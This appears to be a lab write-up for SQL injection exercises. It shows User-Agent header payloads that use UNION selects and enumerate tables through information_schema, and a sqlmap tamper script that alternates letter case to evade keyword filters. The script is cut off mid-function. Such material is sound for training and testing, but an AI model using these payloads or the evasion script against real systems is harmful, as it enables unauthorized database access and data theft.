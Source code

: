 
### SQLi 5
This is similar to SQLi 4, but the developer used doublequotes around strings.

PoC:
```bash
GET / HTTP/1.1
Host: 5.sqli.labs
User-Agent: "UNION(select('PoC String'));#

# To exploit by hand you have again to find the tables in the current database:

GET / HTTP/1.1
Host: 5.sqli.labs
User-Agent: "union(SELECT(group_concat(table_name))FROM(information_schema.columns)where(table_schema=database()));#
```

### SQLi 6
MySQL's reserved words have been filtered. Using **RaNDom** case does not help, as you can have, for example, somethin like *InfoRMaTIon_ScheMa* who will become *InfoRMaTI_ScheMa*, as *on* or *ON* is a valid reserved word.

PoC:
```bash

GET / HTTP/1.1
Host: 6.sqli.labs
User-Agent: ' UNiOn seLect @@versiOn;#

The only way to get around this kind of filtering during the exploitation automation phase is to use DifFeReNt CaSe for every letter
You have to write a simple tampering script:
```

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces each keyword with a CaMeLcAsE VeRsIoN of it.

    >>> tamper('INSERT')
    'InSeRt'
    """

    ret_val = ""

    if payload:
        for i in range(len(payload)):
            if i % 2 == 0:
                # We cannot break 0x12345
                if not ((payload[i] == 'x') and (payload[i-1] == '0')):
                    ret_val += payload[i].upper()
                else:
                    ret_val += payload[i]
            else:
                ret_val += payload[i].lower()
```